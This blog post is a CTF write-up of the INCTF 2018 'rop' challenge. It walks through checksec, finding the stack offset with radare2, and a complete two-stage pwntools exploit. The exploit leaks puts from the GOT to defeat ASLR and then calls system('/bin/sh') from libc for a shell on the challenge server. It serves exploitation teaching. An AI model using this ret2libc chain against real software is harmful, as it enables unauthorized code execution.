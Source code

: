 ```yaml
---
layout: post
title: INCTF Qualifiers rop 400
updated: 2018-12-10 21:00
image: inctf_rop_400.png
tags: [ctf, binary exploit, tech]
---
```


## INCTF Qualifiers - rop [400 pts]

Hey, guy's recently I took part in the qualifiers for INCTF 2018. Here's my shot at a writeup for the rop challenge which was a pwn challenge for 400 points. The challenge is a good one especially for a person who is new to binary exploitation.

### A case of ROP

From the name of the challenge it's kinda obvious that it has something to do with return oriented programming. We are presented with two files, one the binary itself and the other libc. We can confirm that this is indeed a rop challenge by running checksec on the binary we got.

{% highlight shell %}
$ checksec rop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

As NX is enabled we cannot place shellcode to execute on the stack. Instead we can use the stack to point to so called gadets in order to achieve what we want. These gadgets are known as rop gadgets. You can learn more about rop [here](https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf) and [here](https://www.rapid7.com/resources/rop-exploit-explained/).

### The strat

What my plan was or is, was to use ROP and call system with /bin/sh. This should be simple enough if we know 3 things, the offset of the saved instruction pointer, the address of system, the address of the /bin/sh. What we're basically doing is faking a function call, with the parameters and all.

Getting the offset of the saved instruction pointer is rather easy. I did this locally using ragg2 and r2.

{% highlight shell %}
$ ragg2 -P 129 -r > pattern.txt
{% endhighlight %}

Now let's create an r2 profile file, nothing fancy.

{% highlight shell %}
#!/usr/bin/rarun2
stdin=./pattern.txt
{% endhighlight %}

Let's run this and find the offset...

{% highlight shell %}
$ r2 -r profile.rr2 -d rop
Process with PID 2820 started...
= attach 2820 2820
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f91a360f210]> dc
Welcome fellow hackers
Can you rop your way to shell ?

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 ret=0
[0x00401201]> pxw 4 @ rsp
0x7ffcb656a488  0x4a414149                                   IAAJ
[0x00401201]> wopO 0x4a414149
24
[0x00401201]
{% endhighlight %}

So we got the offset. Now moving on to the next part.

## ASLR? What ASLR?

So it looks like the server hosting our binary has ASLR enabled, what this means is that libc is actually loaded at different addresses every run. So how do we counter this? Simple, we just need to leak a GOT address. Once we get the GOT address we can make use of that to recalculate our offset of our functions so that it's correct. But won't the program exit? It will, but we can prevent this by recalling the main function. Then we can easily supply our payload.

Using simple disassembly by r2 we can see that we have a puts function. Perfect we can make use of that to leak the address of the GOT. Once we get the leak, we can subtract our assumed aka default address with the leaked address. This is the amount of change in the address which we need to account for and recalculate our payload addresses with. This task seemingly daunting is highly simplified with pwn tools.

## The attack.

First we generate an exploit temaplate using pwn tools...

{% highlight shell %}
$ pwn template rop --host=13.233.178.121 --port=1337 > exploit.py
{% endhighlight %}

Then we add our exploit inbetween the start and interactive function calls.

{% highlight python %}
...truncated...
libc = ELF('./libc.so.6')

r = ROP(exe)
r.call(exe.sym.puts, [exe.got.puts])
r.call(exe.sym.main)

io.recvuntil('?')
io.recvline()

payload_stage1 = fit({
    24: r.chain()
})

io.sendline(payload_stage1)
io.recvline()
putsstr = io.recvline(False)
io.recvline()

puts = u64(putsstr.ljust(8, "\x00"))
log.info("Putstr addr: %#x", puts)

libcbase = puts - libc.sym.puts
libc.address = libcbase

r = ROP(exe)

system = libc.sym.system
binsh = next(libc.search('/bin/sh'))
r.call(system, [binsh])

payload_stage2 = fit({
    24: r.chain()
})

io.recvuntil('?')
io.recvline()
io.sendline(payload_stage2)
io.recvline()

io.interactive()
{% endhighlight %}

Run it...

{% highlight shell %}
$ ./exploit.py
...
$ cat /home/rop/flag.txt
inctf{r0p_r0p_4ll_th3_way_t0_sh311}
{% endhighlight %}

PWNED!!.
